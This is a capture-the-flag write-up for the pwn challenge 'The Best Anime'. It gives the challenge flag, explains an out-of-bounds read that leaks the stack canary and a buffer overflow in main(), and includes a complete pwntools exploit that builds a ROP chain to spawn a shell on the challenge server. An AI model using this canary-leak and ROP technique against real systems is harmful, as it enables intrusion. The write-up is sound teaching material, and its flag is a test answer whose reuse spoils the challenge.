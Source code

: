 # pwn - The Best Anime - Writeup

---  
![pic](pic/the_best_anime.png)
## FLAG：
`THJCC{d4rl1n9_1N_7hE_FR4nXx_15_7he-Be57}`

## Observation：
- A passcode `Darling in the FRANXX` is found.
- `darling()` has an **out-of-bounds read** vulnerability that can **leak the stack canary**.
- `main()`has a **buffer overflow** vulnerability that can trigger **arbitrary execution**.
- Use an ROP chain to execute `system("/bin/sh")`
## Step：
1. Input the passcode.
2. Input the out-of-bound index `14` and `15` to get the stack canary.
3. Setup the stack canary and construct the ROP chain.

## Exploit：  

```python
from pwn import *
from Crypto.Util.number import *
context.arch = 'amd64'
p = remote('cha-thjcc.scint.org', 10101)
#p = process('./the_best_anime')
p.sendlineafter(b'What is my favorite anime > ', b'Darling in the FRANXX')
  
p.sendlineafter(b'Select login user > ', b'14')
p.recvuntil(b'User ')
canary = p.recvuntil(b' selected', drop=True)
  
p.sendlineafter(b'Enter login passcode > ', b'15')
p.recvuntil(b'Passcode ')
canary = p.recvuntil(b' selected', drop=True) + canary
  
canary = int(canary,16)
print(f"{hex(canary) = }")
  
'''
rax = 0x3b
rdi = "/bin/sh\x00"
rsi = 0
rdx = 0
'''
  
bss = 0x4cc000               # writable address
pop_rdi = 0x0000000000494253
pop_rsi = 0x000000000041fcf5
pop_rdx = 0x000000000048a8dc # pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
pop_rax = 0x0000000000434bbb
mov_rsi_rax = 0x000000433f95 # mov qword ptr [rsi], rax ; ret
syscall = 0x0000000000401364
  
payload = b'A'*56 + flat([canary, 0,
                          pop_rax, u64(b'/bin/sh\x00'),
                          pop_rsi, bss,
                          mov_rsi_rax,
                          pop_rdx, 0, 0, 0, 0, 1,
                          pop_rax, 0x3b,
                          pop_rdi, bss,
                          pop_rsi, 0,
                          syscall
                         ])
p.sendline(payload)
p.interactive()
```

![pic](pic/flag.png)